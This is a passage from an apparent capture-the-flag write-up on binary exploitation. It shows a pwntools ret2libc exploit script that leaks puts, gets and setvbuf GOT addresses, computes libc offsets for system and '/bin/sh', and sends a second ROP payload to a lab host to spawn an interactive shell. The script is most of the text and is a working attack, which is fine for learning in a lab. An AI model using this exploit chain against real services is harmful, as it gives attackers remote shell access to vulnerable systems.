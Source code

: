 ```python
payload += b"B"*0x8
# We need to define what to actually print. Mind that data is stored in RDI, then the GOT Address and plt PUTS at last
payload += pop_rdi_ret + got_puts + plt_puts
payload += pop_rdi_ret + got_gets + plt_puts
payload += pop_rdi_ret + got_setvbuf + plt_puts
payload += main

p = process()
p=remote("10.10.178.191", 9009)
p.recvuntil(b"ahead")
p.recv()
p.sendline(payload)

out = p.recvall().split(b"\n")

# u64 does the opposite what p64 does. It unpacs from little endian 64bit
leaked_puts_address = u64(out[0].ljust(8, b"\x00"))
leaked_gets_address = u64(out[1].ljust(8, b"\x00"))
leaked_setvbuf_address = u64(out[2].ljust(8, b"\x00"))

print("Leaked PUTS Address: {}".format(str(hex(leaked_puts_address))))
print("Leaked GETS Address: {}".format(str(hex(leaked_gets_address))))
print("Leaked SETVBUF Address: {}".format(str(hex(leaked_setvbuf_address))))

# 2nd stage where we return to the main function, exploit gets once again and return to libc system to spawn a shell. Offsets below were gotten from libc.nullbyte.cat
'''
	system	0x04f550	-0x30c40
	gets	0x080190	0x0
	puts	0x080aa0	0x910
	setvbuf	0x0813d0	0x1240
	open	0x10fd10	0x8fb80
	read	0x110140	0x8ffb0
	write	0x110210	0x90080
	str_bin_sh	0x1b3e1a	0x133c8a
'''

payload = b"A"*0x20
payload += b"B"*0x8

# ubuntu needs ret!
payload += ret
payload += pop_rdi_ret + p64(leaked_gets_address + 0x133c8a)
payload += p64(leaked_gets_address - 0x30c40)

p.sendline(payload)
p.interactive()
```

# PWN110 - todo
I've decided to do PWN110 at some later time, as i've not felt ready to build my own ROP Chains ;)
